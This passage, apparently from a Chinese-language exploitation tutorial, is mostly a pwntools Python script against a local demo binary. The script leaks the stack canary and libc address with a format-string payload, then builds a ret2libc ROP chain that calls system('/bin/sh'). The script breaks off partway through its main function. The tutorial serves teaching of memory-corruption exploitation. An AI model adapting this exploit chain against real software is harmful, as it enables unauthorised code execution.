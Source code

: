 
Ret2LibC的构造已经是老生常谈了，在前面文章中已经介绍过，这里就不再过多介绍了。下面会先构造格式化字符串泄露数据，然后再向栈上注入shellcode，返回LibC中的`system`函数，最终成功调用shell。

构造好的explout如下所示。

```text
import pwn

def convert2hex(data):
    return int(data, 16)

def sh_payload_get(target_info):
    payload = b'A' * (0x110 - 0x8)
    payload += pwn.p64(target_info['canary'])
    payload += b'B' * 0x8
    payload += pwn.p64(target_info['libc_base_addr'] + target_info['pop_rdi_ret_offset'])
    payload += pwn.p64(target_info['libc_base_addr'] + target_info['sh_offset'])
    payload += pwn.p64(target_info['libc_base_addr'] + target_info['ret_offset'])
    payload += pwn.p64(target_info['libc_base_addr'] + target_info['system_offset'])
    payload += pwn.p64(target_info['libc_base_addr'] + target_info['exit_offset'])
    return payload

def libc_info_get(target_info):
    target_info['system_offset'] = target_info['libc_info'].symbols['system']
    target_info['exit_offset'] = target_info['libc_info'].symbols['exit']
    target_info['sh_offset'] = target_info['libc_info'].search("/bin/sh").__next__()
    print('[--] system@libc offset: {}, exit@libc offset: {}'.format(hex(target_info['system_offset']), hex(target_info['exit_offset'])))
    print('[--] /bin/sh@libc offset: {}'.format(hex(target_info['sh_offset'])))
    return target_info

def canary_get(target_info):
    target_info['canary'] = convert2hex(target_info['leak_data'].decode().split('.')[0])
    print('[**] canary value: {}'.format(hex(target_info['canary'])))
    return target_info

def libc_base_get(target_info):
    random_libc = convert2hex(target_info['leak_data'].decode().split('.')[1])
    print('[**] libc leaked address: {}'.format(hex(random_libc)))
    target_info['libc_base_addr'] = random_libc - target_info['libc_leak_ele_offset']
    print('[--] libc base address: {}'.format(target_info['libc_base_addr']))
    return target_info

def leak_payload_get():
    payload = b'%13$llx.%17$llx.'
    payload += b'endtag'
    return payload

def main():
    target_info = {
        'exec_path': './aslr_bypass_example',
        'libc_info': '/usr/lib/libc.so.6',
        'leak_data': 0x0,
        'libc_leak_ele_offset': 0x25c88,
        'canary': 0x0,
        'libc_base_addr': 0x0,
        'pop_rdi_ret_offset': 0xfd8c4,
        'ret_offset': 0xfd8c5,
        'system_offset': 0x0,
        'sh_offset': 0x0,
        'exit_offset': 0x0
    }
    pwn.context.binary = pwn.ELF(target_info['exec_path'])
    conn = pwn.process([target_info['exec_path']])
```